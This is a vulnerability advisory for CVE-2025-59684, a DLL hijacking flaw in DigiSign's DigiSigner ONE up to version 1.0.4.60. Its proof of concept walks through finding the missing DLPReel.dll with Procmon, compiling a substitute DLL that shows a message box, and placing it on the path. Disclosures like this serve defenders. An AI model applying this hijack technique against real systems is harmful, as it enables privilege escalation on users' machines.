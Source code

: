 # CVE-2025-59684

DigiSign's DigiSigner ONE application version <= 1.0.4.60 is vulnerable to DLL Hijacking vulnerability. 
DLL Hijacking happens by placing a malicious DLL in a directory (in the absence of a legitimate DLL), which is then loaded by the application instead of the legitimate DLL.  This causes the malicious DLL to load with the same privileges as the application, thus causing a privilege escalation.



# Affected Product & Version
DigiSign DigiSigner ONE - 1.0.4.60

Reference: https://digisign.ro/about-us/about-digisign/

# PoC

1. Launch Procmon and apply the filters below to monitor the Digisign application for DLL hijacking issues.
 
 • Process name contains Digisign
 • Result is Name Not Found 
 • Path ends with .dll
 
2. You will notice an DLL named DLPReel.dll loaded from different location such as digisign installation folder, environment path, but it is not found
3. Create a malicious payload using the source code below and save it as DLPReel.dll 
#include <windows.h> 
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved) 
{
MessageBox(NULL, TEXT("Digissgn DLL Hijack!"), TEXT("Digising"), 0); 
return 0; 
}
4. Compile the code using x86_64-w64-mingw32-gcc -shared -o DLPReel.dll DLPReel.cpp
5. Place the DLL in any of the environment path
6. Now open the application and click on Renewal Certificate to notice that a Message box will pop up with hijack message




# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.
